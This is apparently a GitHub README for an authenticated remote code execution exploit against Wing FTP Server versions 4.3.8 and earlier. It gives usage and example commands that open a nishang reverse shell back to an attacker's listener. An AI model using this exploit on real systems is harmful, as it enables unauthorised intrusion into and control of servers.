 # Wing-FTP-RCE Authenticated
This is a Python3 exploit for the Wing FTP Server running on Windows that requires admin panel authentication.

## Tested versions
<=4.3.8

## About the vulnerability
This exploit was discovered by Alex Haynes.

## How to run:
This exploit will invoke a nishang tcp reverse shell on the target. Start your listener before executing.

#Usage:
```
final.py <TARGET> <TARGET_PORT> <LOCAL_IP> <LOCAL_PORT> <USER> <PASSWORD>
```
#Example:
```
final.py 0.0.0.0 8000 127.0.0.1 9001 notcos coolpass
```
